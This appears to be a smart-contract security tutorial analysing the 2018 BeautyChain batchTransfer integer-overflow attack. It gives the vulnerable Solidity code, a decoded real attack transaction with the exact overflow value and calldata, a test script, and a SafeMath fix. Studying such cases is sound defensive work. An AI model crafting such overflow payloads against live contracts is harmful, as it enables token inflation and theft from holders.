



Real-World-Scenario: ERC20 Beauty Chain Batch Overflow 2018
This is a hyperinflation attack happened in 2018A bunch of erc20 tokens incorrectly checked the results of mathematical calculations. This lack of safe checks led to exchanges freezing all erc20 token transfers.
The effected tokens in this attack used an insecure batch send function that was not protected from integer overflows.
This vulnerability was copy pasted into many different tokens and when exploited it forced exchanges to suspend all erc20 token transfers until the issue was resolved.
Vulnerable function in the contract:
https://etherscan.io/address/0xc5d105e63711398af9bbff092d4b6769c82f793d#code function batchTransfer(address[] _receivers, uint256 _value) public whenNotPaused returns (bool) {
uint cnt = _receivers.length;
uint256 amount = uint256(cnt) * _value; //<-- overflow vulnerability
require(cnt > 0 && cnt <= 20);
require(_value > 0 && balances[msg.sender] >= amount);
balances[msg.sender] = balances[msg.sender].sub(amount);
for (uint i = 0; i < cnt; i++) {
balances[_receivers[i]] = balances[_receivers[i]].add(_value);
Transfer(msg.sender, _receivers[i], _value);
}
return true;
} ◇ The issue with this function is it’s performing a
balances[msg.sender] check against the amount on line 5 but
that amount value comes from a mathematical operation on line 3 which has an overflow vulnerability.
◇ In fact the
amount results come from multiplying the length of the array(
_receivers.length) times the
_value that is sent to each receiver. Since
there are no checks that this mathematical operation does not overflow to a value lower than our balance, we can easily set the amount to 0 using a very large number as our
_value.
◇ When the actual balances(
balances[_receivers[i]] ) are updated on line 8, we are not using the amount of 0, but instead we are using the initial large
_value sent to the function, but this time there is no multiplication, so it does not cause an overflow, it only updates the balances of the receivers to a very large number.
Real Attack TransactionView the transaction on etherscan:
https://etherscan.io/tx/0xad89ff16fd1ebe3a0a7cf4ed282302c06626c1af33221ebe0d3a470aba4a660f click to see more → input data
 Function: batchTransfer(address[] _receivers, uint256 _value)
MethodID: 0x83f12fec
[0]: 0000000000000000000000000000000000000000000000000000000000000040 //define that the array with its length start at position 0x40 = 64 bytes -> [2]
[1]: 8000000000000000000000000000000000000000000000000000000000000000 //_value that we want to pass
[2]: 0000000000000000000000000000000000000000000000000000000000000002 //length of the array
[3]: 000000000000000000000000b4d30cac5124b46c2df0cf3e3e1be05f42119033 //receivers address 1 of the array
[4]: 0000000000000000000000000e823ffe018727585eaf5bc769fa80472f76c3d7 //receivers address 2 of the array
The data in the transaction can be broken down as the following
◇
MethodID of 4 Byte (0x83f12fec)
This value (0x83f12fec) come from by hashing the function “batchTransfer(address[],uint256)” with keccak-256. Note that the function to hash is without the variable names and spaces of the original one.
It is the fist 4 byte of the hexadecimal value created (0x + 4 Byte), considering that each 2 digits of a hexadeciaml number is 1 Byte.
We can calculate it by:
- node commands on Linux(
web3.utils.sha3 is an alias for keccak-256):
root@kali:/# npm install web3
root@kali:/# node
> const web3 = require('web3')
> web3.utils.sha3("batchTransfer(address[],uint256)").substring(0,10)
- use an
online Tool and then take the first 4 Bytes(8 digits)
◇
Five 32-byte values (0,1,2,3,4)
When we have an array in a function, we have to pass to it
▪ [0] Offset to the
_recievers Array, point to the 64th (0x40) Byte [2]. If you look at the 64th byte, it is the beginning of our array. The first 32 bytes [2] is the length (0x02), followed by the two addresses on line [3] and [4]
▪ [1] This is the actual
_value which is being sent that when multiplied causes an overflow. (A very large number)
▪ [2] This is the size of the
_recievers array sent to batch transfer in this case 2 addresses (0x02)
▪ [3] This is the first address from the
_recievers array used in the batch transfer.
▪ [4] This is the second address from the
_recievers array used in the batch transfer.
Why is been chosen 0x8000000000000000000000000000000000000000000000000000000000000000 as _value ?Because as we have seen
here uint256 need to a value strictly < 0x10000000000000000000000000000000000000000000000000000000000000000 otherwise it goin overflow.
To reach this value, we cannot insert directly this number because it would give us directly an error of “value out-of-bounds”.
To test the overflow, we can use this small script in the IDE
http://remix.ethereum.org/ pragma solidity ^0.6.6;
contract noAuth {
function amount(uint256 myAmount) public returns(uint){
return myAmount * 2; //or *4 like in the other example below
}
}
• With an array of length 2, we can use 1/2 of the value so
0x8000000000000000000000000000000000000000000000000000000000000000 • With an array of length 4, we can use 1/4 of the value so 0x4000000000000000000000000000000000000000000000000000000000000000
 Fix the vulnerability
For older versions of solidity (
<0.8) we need to use the
SafeMath library.
In the subchapter (
Test locally the Attack), we have tested and fixed the vulnerability locally, Check it!
pragma solidity 0.6.6;
import "https://github.com/ConsenSysMesh/openzeppelin-solidity/blob/master/contracts/math/SafeMath.sol";
function batchTransfer(address[] _receivers, uint256 _value) public whenNotPaused returns (bool) {
uint cnt = _receivers.length;
uint256 amount = SafeMath.mul(uint256(cnt), _value); //<--
require(cnt > 0 && cnt <= 20);
require(_value > 0 && balances[msg.sender] >= amount);
balances[msg.sender] = SafeMath.sub(balances[msg.sender], amount); //<--
for (uint i = 0; i < cnt; i++) {
balances[_receivers[i]] = SafeMath.add(balances[_receivers[i]], _value); //<--
Transfer(msg.sender, _receivers[i], _value);
}
return true;
}Bibliography:
•
http://console-cowboys.blogspot.com/2020/08/smart-contract-hacking-chapter-3.html